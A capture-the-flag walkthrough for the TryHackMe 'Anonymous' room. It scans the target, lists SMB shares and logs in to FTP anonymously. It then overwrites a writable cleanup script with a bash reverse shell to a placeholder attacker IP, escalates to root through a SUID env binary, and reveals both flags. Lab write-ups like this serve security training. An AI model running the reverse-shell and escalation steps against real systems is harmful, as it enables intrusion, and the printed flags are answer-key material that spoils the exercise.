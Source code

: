# Room: [Anonymous](https://tryhackme.com/room/anonymous) (*Not the hacking group*) :wink:


## Basic Enum

Nmap / rustcan

```shell
IP=VICTIM
rustscan -a $IP | tee rustscan.log
[...]
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 63
22/tcp  open  ssh          syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63

```

- Enumerate the machine.  How many ports are open?
**4**

- What service is running on port 21?
**ftp**

- What service is running on ports 139 and 445?
**smb**

```shell
smbclient -L $IP (without any password)

Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

- There's a share on the user's computer. What's it called?
**pics**

> HINT: What's that log file doing there?... nc won't work the way you'd expect it to

```shell
ftp $IP

Name: anonymous
Password: (without any password)
ftp> ls
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
ftp> cd scripts
ftp> ls
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1376 Mar 05 22:23 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.

ftp> mget *
```
Let's cat each files: 

```shell
cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

```shell
cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

```shell
cat to_do.txt        
I really need to disable the anonymous login...it's really not safe
```

## Basic shell

So let's have fun by uploading this reverse shell via ftp now:

```shell
cat clean.sh

#!/bin/bash
bash -i >& /dev/tcp/<AttackerIp>/4242 0>&1
```

And after few seconds we are in :

```shell
rlwrap nc -nlvp 4242
listening on [any] 4242
namelessone@anonymous:~$ 
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
ls
pics  user.txt
cat user.txt
90d6f992[Redcated]8748c414740
namelessone@anonymous:~$ 

```
<details>
  <summary>Click to reveal the user flag!</summary>
  
  ```bash
  90d6f992585815ff991e68748c414740
  ```
</details>
 
> HINT: This may require you to do some outside research

Cool ! So as usual in this case, [gtfobins](https://gtfobins.github.io/) comes in :point_left:

```shell
find / -perm -u=s 2>/dev/null
[...]
/usr/bin/env
```

So let's try this: [gtfobins break out from restricted environments](https://gtfobins.github.io/gtfobins/env/#shell)

```shell
env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
cat /root/root.txt
4d9<Redacted>363
bash-4.4# 

```

Houra :partying_face:

<details>
  <summary>Click to reveal the root flag!</summary>
  
  ```bash
  4d930091c31a622a7ed10f27999af363
  ```
</details>
 
